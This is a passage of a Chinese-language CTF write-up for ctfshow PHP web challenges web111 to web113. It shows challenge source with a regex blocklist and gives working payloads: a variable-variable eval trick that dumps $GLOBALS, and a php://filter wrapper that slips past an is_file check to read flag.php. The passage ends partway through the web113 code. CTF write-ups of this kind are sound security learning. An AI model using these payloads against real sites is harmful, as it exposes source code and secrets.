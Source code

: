 当v1传入ctfshow，执行getFlag函数

```
eval("$$v1 = &$$v2;");
    var_dump($$v1);
```

也就是$ctfshow=$$v2,然后将$$v1打印出来

我们另`v2=GLOBALS`

```
var_dump($GLOBALS);
```

payload

```
?v1=ctfshow&v2=GLOBALS
```



### web112

```
highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

`is_file`

> 判断给定文件名是否为一个正常的文件。

is_file用php伪协议即可绕过

payload

```
?file=php://filter/resource=flag.php
```



### web113

```
highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/filter|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
```